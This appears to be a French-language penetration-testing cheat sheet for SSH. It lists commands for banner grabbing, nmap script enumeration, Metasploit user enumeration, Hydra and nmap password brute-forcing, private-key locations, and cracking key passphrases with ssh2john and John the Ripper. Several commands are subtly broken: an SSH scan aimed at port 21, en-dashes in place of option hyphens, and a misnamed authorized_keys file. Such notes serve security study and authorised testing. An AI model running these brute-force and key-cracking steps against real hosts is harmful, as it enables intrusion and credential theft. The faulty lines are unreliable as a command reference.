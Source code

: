 1. Obtenir la bannière de connexion SSH (version)
```
nc -vn <IP> 22
```
2. Utiliser scripts nmap
```
nmap --script ssh-* -p 21 [ip]
nmap -p22 <ip> --script ssh2-enum-algos 
nmap -p22 <ip> --script ssh-hostkey --script-args ssh_hostkey=full
nmap -p22 <ip> --script ssh-auth-methods --script-args="ssh.user=root"
```
3. Enumérer les utilisateurs via metasploit
```
msf> use auxiliary/scanner/ssh/ssh_enumusers
```
4. Se connecter au service 
```
ssh [USER]@[IP]
ssh –i [KEY] [USER]@[IP]  # Connection avec cléf
```
4. Bruteforce
```
hydra [-L users.txt or -l user_name] [-P pass.txt or -p password] -f [-S port] ssh
nmap -p 22 –script ssh-brute –script-args userdb=[users.lst],passdb=[pass.lst] –script-args ssh-brute.timeout=4s [IP]
```
5. Chemin des cléfs 
```
$user/.ssh/id_rsa
$user/.ssh/authorized key
```
6. Cracker cléf privé
```
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
ssh [USER]@[IP] -i [CLEF] # Via le MP de john
```

